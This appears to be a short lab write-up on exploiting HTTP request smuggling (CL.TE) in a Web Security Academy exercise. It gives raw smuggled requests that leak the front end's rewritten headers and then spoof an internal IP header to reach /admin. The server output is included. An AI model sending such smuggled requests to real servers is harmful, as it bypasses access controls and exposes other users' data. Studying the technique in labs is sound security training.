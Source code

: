 Smuggled the request (CL.TE) and leaked the re-written headers:
```http
POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Cookie: session=ZiSVxStDPclB10AHJWN8a3GyTGPoN2hv
Content-Length: 117
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Connection: close

0

POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Content-Length: 250

search=
```

>[!note]-
>The smuggled request would be:
>```http
>POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Content-Length: 250
>
>search=POST / HTTP/1.1
X-mmOhiB-Ip: 93.51.54.187
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
>...

Server response:
```html
<section class=blog-header>
<h1>0 search results for 'POST / HTTP/1.1
X-mmOhiB-Ip: 93.51.54.187
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Cookie: session=ZiSVxStDPclB10AHJWN8a3GyTGPoN2hv
Content-Length: 117
Content-Type: application/x-www-form-urlencoded
Transfer-Encod'</h1>
<hr>
</section>
```

Smuggled the backend and accessed `/admin`:

```http
POST / HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
Cookie: session=ZiSVxStDPclB10AHJWN8a3GyTGPoN2hv
Content-Length: 187
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Connection: close

0

POST /admin HTTP/1.1
Host: 0aa7002d032bdaf9814371a40004003e.web-security-academy.net
X-mmOhiB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x
```
